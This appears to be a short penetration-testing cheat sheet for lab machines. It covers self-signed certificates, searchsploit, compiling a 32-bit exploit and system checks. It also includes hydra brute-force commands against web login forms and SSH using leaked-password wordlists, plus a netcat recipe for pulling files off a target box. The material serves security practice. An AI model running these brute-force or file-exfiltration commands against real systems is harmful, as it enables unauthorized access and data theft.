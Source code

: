 ## create self-signed ssl certificate
```bash
openssl req -newkey rsa:2048 -nodes -keyout my_cert.key -x509 -days 36
2 -out my_cert.crt

# convert to .pem if needed:
openssl pkcs12 -export -in my_cert.crt -inkey my_cert.key -out my_cert.p12
openssl pkcs12 -in my_cert.p12 -nodes -out my_cert.pem
```

## searchsploit
```bash
searchsploit -www query # show exploitdb link instead
searchsploit -x /path/to/exploit # read the exploit file
searchsploit -m /path/to/exploit # mirror exploit file to current directory
```


## hydra web form bruteforce
```bash
hydra -l admin -P ~/git/SecLists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.75 http-post-form "/blog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

hydra -l admin -P ~/git/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 64 # 64 threads
# change to https-web-form for port 443
```
## hydra ssh brute
```bash
hydra -l username -P wordlist.txt ssh <Target-IP> -s 22222
```

## get glibc version
```bash
ldd --version
```
## compile for 32 bit from a 64bit os, install `gcc-multilib` first
```bash
gcc -m32 -D_GNU_SOURCE -o suid32 suid.c
```
## transfer files through netcat
```bash
# start listening for download
nc -nlvp 9001 > dump.txt
# start uploading from target box
nc ip port < file.txt

```

